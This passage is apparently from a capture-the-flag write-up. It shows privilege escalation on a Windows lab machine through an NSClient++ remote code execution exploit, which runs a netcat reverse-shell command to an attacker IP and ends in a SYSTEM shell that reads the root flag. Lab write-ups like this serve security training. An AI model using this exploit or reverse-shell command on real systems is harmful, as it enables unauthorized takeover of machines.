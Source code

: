 ![](images/nsclient++.png)

The exploit we are going to use, however, does not interact with the GUI. We will use the remote code execution vulnerability in `48360.txt`. It is a simple Python script to execute a command. Before doing this, we will transfer `nc64.exe` to the machine to get a simple reverse shell. We will then set up our listener and get the root shell.

```
# python rce.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c "c:\temp\nc.exe 10.10.14.130 1234 -e cmd.exe"
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: RldzrIPJGK)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
```

```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.130] from (UNKNOWN) [10.10.10.184] 49731
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>cd ..\..\Users\Administrator\Desktop
cd ..\..\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
401177**************************
```
